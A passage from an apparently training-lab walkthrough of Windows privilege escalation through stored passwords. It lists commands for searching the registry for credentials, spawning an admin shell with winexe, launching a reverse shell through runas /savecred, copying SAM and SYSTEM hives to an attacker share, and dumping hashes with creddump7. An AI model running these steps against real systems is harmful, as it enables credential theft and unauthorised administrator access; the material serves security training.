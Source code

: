 (For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)

1. The registry can be searched for keys and values that contain the word "password":

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

2. If you want to save some time, query this specific key to find admin AutoLogon credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

3. On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

```
winexe -U 'admin%password' //10.10.181.132 cmd.exe
```

## Passwords - Saved Creds 

1. List any saved credentials:

```
cmdkey /list
```

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

2. Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

## Passwords - Security Account Manager (SAM) 

 The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.

1. Transfer the SAM and SYSTEM files to your Kali VM:

```
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

2. On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

```
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM
```
